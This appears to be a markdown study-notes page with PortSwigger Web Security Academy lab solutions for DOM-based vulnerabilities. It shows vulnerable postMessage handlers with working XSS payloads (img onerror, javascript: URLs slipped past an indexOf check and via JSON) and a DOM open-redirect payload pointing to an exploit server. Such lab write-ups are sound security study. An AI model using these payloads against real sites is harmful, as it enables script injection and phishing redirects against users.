 # DOM-based Vulnerability

### DOM XSS using web messages
* Vulnerable Code - `addEventListener()` listens for a web message
```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
* Payload - By adding a wrong `src` and `enerror=` function will cause `print()`
```html
<iframe src="https://ac7e1f1c1f3ed2d1c06281a0005800be.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL
* Vulnerable Code - `indexOf` looks for http: or https: in the message body
```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acf31f5e1e1ff65ec0851f1800fc00fa.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

### DOM XSS using web messages and JSON.parse
* Vulnerable Code - `JSON.parse` parse the message data.
```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acbe1f971f2cee6bc0482be200600037.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### DOM-based open redirection
* Vulnerable Code
```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```
* Payload
```html
### Visit the following URL. The vulnerable code will read the value of url= and redirect the user to the following url when "Back to Blog" is clicked:

https://acaa1f4e1f5e9aa7c0c6e265002f004c.web-security-academy.net/post?postId=4&url=https://exploit-ac4f1f6d1f429a0dc0e4e2eb018e0096.web-security-academy.net/ 
```